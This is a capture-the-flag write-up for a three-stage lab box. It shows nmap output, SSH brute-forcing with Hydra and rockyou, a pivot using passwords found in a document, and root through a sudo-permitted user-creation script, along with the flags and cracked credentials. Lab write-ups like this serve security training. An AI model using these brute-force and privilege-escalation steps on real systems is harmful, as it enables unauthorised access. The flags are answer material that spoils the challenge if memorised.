




# Spray and Pray Series (Easy)

## Spray and Pray - I

Hi abel,

I seem to have forgotten my password. I wrote it somewhere under a "rock". You think you can help me reconnect to my PC?

Thanks.

That "rock" hint porabably means we have crack the password using rockyou.txt

NMap scan:

```
Nmap scan report for 192.168.253.163
Host is up (0.00018s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.2 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:0C:29:73:FF:05 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.98 seconds
```

We only have SSH. Let's try to use Hydra to brute force login



We got the creds `abel:angel1`. After connection, the flag can be found in the Desktop

```
abel@spraynpray:~$ cd Desktop
abel@spraynpray:~/Desktop$ ls
local1.txt
abel@spraynpray:~/Desktop$ cat local1.txt
OWASPKL{a2377c9ddd1837b32c82f4774a53e7a3}

```

## Spray and Pray - II

Pivot to another user.

Looking at the home dir, we can see the users on the machine



We couldnt directly cd into any of them, since that would be too easy. There is a juicy looking file in abel's Documents: Minit_Mesyuarat_2026_Password_Guideline.docx

I downloaded the file using sftp onto my machine to take a look at it.

Some things of note:



I generated a user list using the usernames and also a password list using the passwords I got from the file. I then ran Hydra and got a match `niki:abel_0411@weekndbuk1tj4lil`




The second flag is found on Niki's desktop

```
niki@spraynpray:~$ cd Desktop/
niki@spraynpray:~/Desktop$ ls
local2.txt
niki@spraynpray:~/Desktop$ cat local2.txt 
OWASPKL{d73aa3d24c1fb6ce993a38efe5505369}
```

## Spray and Pray - II

Get root.

Checking permissions

```
niki@spraynpray:~/Desktop$ sudo -l
User niki may run the following commands on spraynpray:
    (ALL) NOPASSWD: /home/niki/Downloads/gen_user.sh
```

The contents of gen_user.sh

```
#!/bin/bash
USERNAME=$1
PASSWORD=$2
useradd -m -s /bin/bash "$USERNAME"
echo "$USERNAME:$PASSWORD" | chpasswd
usermod -aG sudo "$USERNAME"
```

This creates a user and adds them into sudo group. I ran the script to create a test user. Then, the flag can be read in the root directory

```
niki@spraynpray:~/Downloads$ sudo ./gen_user.sh test test
niki@spraynpray:~/Downloads$ su test
Password: 

test@spraynpray:/home/niki/Downloads$ sudo -l
[sudo: authenticate] Password:     
User test may run the following commands on spraynpray:
    (ALL : ALL) ALL
    (ALL) ALL
test@spraynpray:/home/niki/Downloads$ cd ..
bash: cd: ..: Permission denied
test@spraynpray:/home/niki/Downloads$ sudo ls /root
proof.txt  rockyou
test@spraynpray:/home/niki/Downloads$ sudo cat /root/proof.txt
OWASPKL{05400e69198b6036bc1c05302435648e}
```


